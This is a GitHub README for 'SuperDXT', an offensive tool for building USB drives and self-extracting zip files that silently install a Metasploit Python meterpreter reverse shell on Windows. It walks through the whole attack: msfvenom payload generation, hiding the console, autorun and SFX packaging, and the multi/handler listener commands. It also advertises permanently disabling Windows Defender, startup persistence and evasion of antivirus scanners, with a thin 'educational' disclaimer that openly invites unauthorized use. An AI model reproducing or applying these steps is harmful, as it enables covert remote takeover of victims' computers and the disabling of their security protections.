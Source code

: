 
<h1 align="center">SuperDXT v1.0</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-green?style=for-the-badge">
  <br>
  <br>
  <img src="https://img.shields.io/badge/Author-AbdulazizDXT-green?style=flat-square">
  <img src="https://img.shields.io/badge/Made%20in-Oman-green?style=flat-square">
  <img src="https://img.shields.io/badge/Powerd%20BY-Python%20&%20Metasploit-green?style=flat-square">
</p>

## [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

## [+] Installation

##### The SuperDXT project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperDXT```
    - ```cd SuperDXT```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run :
```
git clone https://github.com/AbdulazizDXT/SuperDXT ;cd SuperDXT ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperDXT file window will open automatically after installation 
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files

- In case you encounter a problem that Kali Linux is unable to open the working file window, you can easily go to the path you downloaded the project to such as: home/kali/Desktop/SuperDXT/SuperDXT-PROJ

- If you want to test the penetration outside the network, you must open a port for the IP address of your device and also put the IPv4 address and the port that you opened in step 3.  You want to receive the connection be the same port you set. IPv4 Outside Network Here : https://whatismyipaddress.com/

## [+] Use SuperDXT In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

- Notice : When you use USB Autorun Creator, all USB contents will be deleted, be careful!

## [+]  Use SuperDXT In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type "MIN (1).exe" & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

## [+] How to Connect Virus/Payload :

- You must have a metasploit formwork with you (Kali/Ubuntu/Fedora/Termux...)
 * Open Terminal/Termux
```
msfconsole

use exploit/multi/handler

set payload python/meterpreter/reverse_tcp 

set LHOST <YourIPAddres>

set LPORT <YourPort>

exploit

```
- Now you can use a USB or ZIP to hack and receive the connection from the Metasploit tool

## [√] Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!

## [+] Something very important!

- This tool is developed for educational purposes. Here he explains how hacking works. If anyone wants to gain unauthorized access to someone's devices, they can try it at their own risk. You have your own responsibilities and you are responsible for any damage or violation of laws by this tool. The author is not responsible for any misuse of SuperDXT!
 
## [+] I'm Here!


- [![Github](https://img.shields.io/badge/Github-AbdulazizDXT-green?style=for-the-badge&logo=github)](https://github.com/AbdulazizDXT)

- [![Gmail](https://img.shields.io/badge/Gmail-AbdulazizDXT-green?style=for-the-badge&logo=gmail)](mailto:Abdulazizalhasaniwin@gmail.com)

